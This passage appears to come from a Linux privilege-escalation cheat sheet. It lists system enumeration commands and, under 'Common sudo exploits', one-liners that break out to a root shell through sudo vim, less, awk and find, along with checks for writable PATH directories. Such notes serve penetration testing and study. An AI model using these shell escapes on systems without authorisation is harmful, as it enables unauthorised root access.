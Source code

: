### Systemd Timers
```bash
systemctl list-timers
```

## Kernel and System Exploits

### Kernel Information
```bash
uname -a
cat /proc/version
lsb_release -a
cat /etc/*-release
```

### Installed Software
```bash
# Debian/Ubuntu
apt list --installed
dpkg -l

# RedHat/CentOS
rpm -qa
yum list installed

# Check for vulnerable versions
```

## Common Privilege Escalation Vectors

### Sudo Misconfigurations
```bash
# Check sudo permissions
sudo -l

# Common sudo exploits
# sudo vim -> :!/bin/bash
# sudo less -> !/bin/bash
# sudo awk 'BEGIN {system("/bin/bash")}'
# sudo find . -exec /bin/bash \; -quit
```

### PATH Variable Manipulation
```bash
# Check current PATH
echo $PATH

# Look for writable directories in PATH
echo $PATH | tr ":" "\n" | xargs ls -la

# Check for relative paths in scripts
strings /path/to/binary | grep -E "^[a-zA-Z]"
```
